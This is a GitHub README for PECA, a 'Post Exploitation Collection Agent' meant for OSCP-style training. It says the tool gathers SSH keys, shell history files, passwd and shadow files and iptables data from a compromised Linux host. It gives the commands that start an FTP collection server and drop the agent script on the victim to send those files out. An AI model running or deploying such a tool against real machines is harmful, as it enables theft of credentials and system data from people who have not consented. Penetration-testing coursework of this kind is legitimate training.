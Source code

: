 # PECA
Post Exploitation Collection Agent

Note: For educational use only
```
            ____  _______________
           / __ \/ ____/ ____/   |
          / /_/ / __/ / /   / /| |
         / ____/ /___/ /___/ ___ |
        /_/   /_____/\____/_/  |_|
    Post Exploitation Collection Agent 
```
##### Intro:
    Peca was designed to help collect key files from linux 
    machines after exploitation has occured. Originally
    designed to help with data gathering during the OSCP

##### Features:
	* Collects all ssh keys in root/usershome
	* Collects .bash* related files for same
	* Collects passwd/shadow files from machine
	* Collects IPTable data

##### Use:

Simple start the server *Sudo is needed for port 21*
```
    ./server.py --ip <iphere> --port 21 --user user --password user
```

Then drop the peca script on the client
```
    ./peca.py --server <iphere> --port 21 --user user --password user
```

##### Technical:
```
	Communicates utilizing the ftp protocol.
```